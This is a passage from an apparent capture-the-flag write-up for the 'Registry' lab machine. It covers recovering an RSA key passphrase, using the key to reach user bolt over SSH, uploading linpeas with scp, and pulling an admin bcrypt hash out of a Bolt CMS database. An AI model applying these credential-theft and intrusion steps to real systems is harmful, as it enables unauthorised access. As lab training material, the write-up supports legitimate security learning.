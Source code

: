 From sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b, `GkOcz221Ftb3ugog` is the passphrase for the rsa key.
Unzip each file with tar for further investigation
`ls -la`
```                
total 24
drwxr-xr-x 2 root root 4096 May 24  2019 .
drwx------ 3 root root 4096 Apr 24  2019 ..
-rw-r--r-- 1 root root   60 May 24  2019 config
-rw------- 1 root root 3326 May 24  2019 id_rsa
-rw-r--r-- 1 root root  743 May 24  2019 id_rsa.pub
-rw-r--r-- 1 root root  444 May 24  2019 known_hosts
```
There is an id_rsa for someone in the root directory. Pair this with the passcode we got and we have shell.. on who though?

`cat config`
```
Host registry
  User bolt
  Port 22
  Hostname registry.htb
```

For bolt it seems like.

## Shell as www-data

Since wget doesnt work, this is how I transferred linpeas.
`scp -i /home/kali/Documents/Registry/id_rsa linpeas.sh bolt@registry.htb:/home/bolt/linpeas.sh`


> `scp` is an alternative for the convenient wget when dealing with firewalls. The usage is `scp [flags] /path/to/file [user]@[ip]:[destination/for/file]`
{: .prompt-tip }


```
# If you're trying out Bolt, just keep it set to SQLite for now.
database:
    driver: sqlite
    databasename: bolt
```
```
bolt@bolt:/var/www/html/bolt/app/database$ ls -la
total 300
drwxrwxr-x 2 www-data www-data   4096 Jun 12 03:47 .
drwxrwxr-x 9 www-data www-data   4096 Apr  6  2021 ..
-rw-r--r-- 1 www-data www-data 294912 Jun 12 04:06 bolt.db
-rw-rw-r-- 1 www-data www-data    170 Oct  8  2019 .gitignore
```
Database files tend to contain sensitive info. Using `strings`, we can grab human readable text
```
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```
This line was present for admin. It is most likely a hash for a password for an admin user.
